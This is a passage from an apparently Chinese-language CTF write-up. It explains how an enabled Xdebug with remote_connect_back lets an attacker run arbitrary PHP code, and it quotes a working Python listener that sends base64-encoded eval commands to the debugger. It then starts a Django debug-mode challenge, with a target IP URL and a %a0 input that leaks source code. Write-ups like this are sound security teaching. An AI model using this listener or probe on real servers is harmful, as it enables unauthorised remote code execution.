 ![xdebug3](https://moxiaoxi.info/img/post/whctf/xdebug3.png)



此外，当没有phpinfo，但是远程服务器还是开启了XDEBUG的情况下，我们也可以通过其进行任意命令执行。这个思路可以参考ricterz.me写的[博客](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)，很有意思。而且，ricterz.me的思路绕过了上文的2、3限制，是一个很好的技巧，值得学习！

比如你可以通过一个简单的curl命令测试远程服务器是否存在XDEBUG调试的漏洞。

![xdebug2](https://moxiaoxi.info/img/post/whctf/xdebug2.png)

当 `X-Forwarded-For` 地址的 9000 端口收到如上，就可以确定开启了 Xdebug，并且开启了 `xdebug.remote_connect_back`。

ricter还写了一个脚本用来利用这种配置漏洞：

```python
#!/usr/bin/python2
import socket

ip_port = ('0.0.0.0',9000)
sk = socket.socket()
sk.bind(ip_port)
sk.listen(10)
conn, addr = sk.accept()

while True:
    client_data = conn.recv(1024)
    print(client_data)

    data = raw_input('>> ')
    conn.sendall('eval -i 1 -- %s\x00' % data.encode('base64'))
```

运行情况如下，可以进行任意PHP代码执行。

![xdebug](https://moxiaoxi.info/img/post/whctf/xdebug.png)

ricterz还分析了xdebug的其他一些可利用的命令。具体请大家阅读他的[博客](https://ricterz.me/posts/Xdebug%3A%20A%20Tiny%20Attack%20Surface)。

## CAT

http://120.55.42.243:20010/index.php?url=%a0

django调试模式打开了，输入%a0之类的字符可以获得报错信息，拿到一部分源码

```python
/opt/api/dnsapi/views.py in wrapper
       # 合并 requests.FILES 和 requests.POST
       for k, v in request.FILES.items():
           if isinstance(v, InMemoryUploadedFile):
               v = v.read()
           request.FILES[k] = v
       request.POST.update(request.FILES)
       return f(*args, **kwargs)
...
   return wrapper
@process_request
def ping(request):
▶ Local vars
/opt/api/dnsapi/views.py in ping
   return wrapper
@process_request
def ping(request):
   # 转义
   data = request.POST.get('url')
   data = escape(data)
...
```